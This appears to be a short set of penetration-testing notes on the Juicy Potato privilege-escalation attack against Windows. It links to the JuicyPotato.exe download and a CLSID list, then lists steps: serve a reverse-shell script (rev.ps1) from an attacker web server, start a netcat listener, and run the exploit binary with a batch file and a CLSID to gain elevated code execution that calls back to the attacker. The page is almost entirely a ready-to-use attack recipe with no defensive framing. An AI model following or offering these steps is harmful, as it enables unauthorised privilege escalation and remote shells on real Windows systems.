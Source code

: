 # Juicy Potato Attack

## Juicy Potato Attack
 - [OHPE GitHub Juicy-Potato](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe)
 - [OHPE CLSID by Operating System](https://ohpe.it/juicy-potato/CLSID/)

```
- Setup www webserver on attacking machine (8000)
- Place your rev.ps1 into the www webserver
- Setup nc listener on 12345 (or whatever port, change rev.ps1 port if different)
- .\jp.exe -t * -p c:\windows\temp\setup.bat -l 1337 -c '{{e60687f7-01a1-40aa-86ac-db1cbf673334}}'
```